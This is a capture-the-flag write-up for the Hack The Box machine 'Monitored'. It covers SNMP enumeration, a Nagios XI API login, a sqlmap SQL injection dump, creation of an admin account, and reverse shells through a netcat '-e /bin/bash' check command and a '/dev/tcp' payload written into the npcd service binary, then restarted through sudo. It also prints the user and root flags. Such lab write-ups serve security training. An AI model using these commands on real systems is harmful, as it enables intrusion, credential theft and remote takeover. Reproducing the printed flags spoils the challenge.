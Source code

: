# Monitored

## Introduction

This writeup details the exploitation process of the "Monitored" box on Hack The Box. The challenge is categorized as medium difficulty and involves several stages, from initial access via SNMP enumeration to gaining root access through service misconfiguration.

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

## Enumeration

### Nmap

```bash
sudo nmap -A -sC -sU -sV -Pn 10.10.11.248
```

<figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

### Adding Domain to Hosts File

```bash
echo "10.10.11.248 nagios.monitored.htb" | sudo tee -a /etc/hosts
```

### Directory Enumeration

```bash
dirsearch -u https://nagios.monitored.htb/nagiosxi/
```

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

```
dirsearch -u https://nagios.monitored.htb/nagiosxi/api/v1
```

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

## Exploitation

### SNMP Enumeration

```bash
incursore.sh -H 10.10.11.248 -t recon
```

```basic
iso.3.6.1.2.1.25.4.2.1.5.570 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh <USERNAME> <password> "
```

### Authentication Bypass

```bash
curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d 'username=<USERNAME>&password=<PASSWORD>&valid_min=1000'

{"username":"svc","user_id":"2","auth_token":"<TOKEN>","valid_min":1000,"valid_until":"Tue, 05 Mar 2024 15:48:12 -0500"}
```

It no luck to login with auth\_token, but i found the SQL injection [nagios-xi-vulnerabilities](https://outpost24.com/blog/nagios-xi-vulnerabilities/).

### SQL Injection and API Key&#x20;

```bash
sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=<TOKEN>" --level=3 --risk=3 -p id --batch --dbms=mysql -D nagiosxi -T xi_users --dump
```

### Create New User

<pre class="language-bash"><code class="lang-bash"><strong>curl -s -XPOST "http://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=&#x3C;API_KEY>" -d "username=admin&#x26;password=KPMG&#x26;auth_level=admin&#x26;email=test@gmail.com&#x26;name=eiei"
</strong><strong>
</strong>{"success":"User account admin was added successfully!","user_id":8}
</code></pre>

* Enter https://nagios.monitored.htb/nagiosxi/mobile/
* Login as USERNAME:PASSWORD
* Go the desktop dashboard

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

* go https://nagios.monitored.htb/nagiosxi/includes/components/ccm/xi-index.php

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

* Find command tab
* Add new command

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

* nc \<YOUR\_IP> \<YOUR\_PORT> -e /bin/bash
* Run check command
* nc -lvnp \<YOUR\_PORT>

### User Flag

<figure><img src="../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

* Cat user.txt ~~e9eaf8e812a59f17bcae9f18b37b4509~~

## Privilege Escalation

### Create own SSH

<pre class="language-bash"><code class="lang-bash">#Your localmachines
ssh-keygen -t rsa -b 4096 -C "your_email@example.com" 
<strong>
</strong><strong>#Victims
</strong>mkdir -p ~/.ssh
chmod 700 ~/.ssh
touch ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys

#Your localmachines
cat ~/.ssh/id_rsa.pub

#Victims
echo 'your_public_ssh_key' >> ~/.ssh/authorized_keys

#Your localmachines
ssh username@victim_server_ip
</code></pre>

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

### Create LinPEAS.sh:

```bash
#Your localmachines
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > test.sh

chmod +x test.sh

scp test.sh nagios@IP:/home/nagios
```

### Run line LinPEAS

```bash
./test.sh
```

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

```bash
nano /usr/local/nagios/bin/npcd
----------------------------------------------
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
----------------------------------------------
chmod +x /usr/local/nagios/bin/npcd
```

```markup
We don't know how to restart `npcd` service, let try `sudo -l`
```

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

```bash
sudo /usr/local/nagiosxi/scripts/manage_services.sh restart npcd
```

<figure><img src="../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

### Root Flag

cat /root/root.txt&#x20;

~~cc01453cbbbad93eac5646e6ebf0046c~~

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
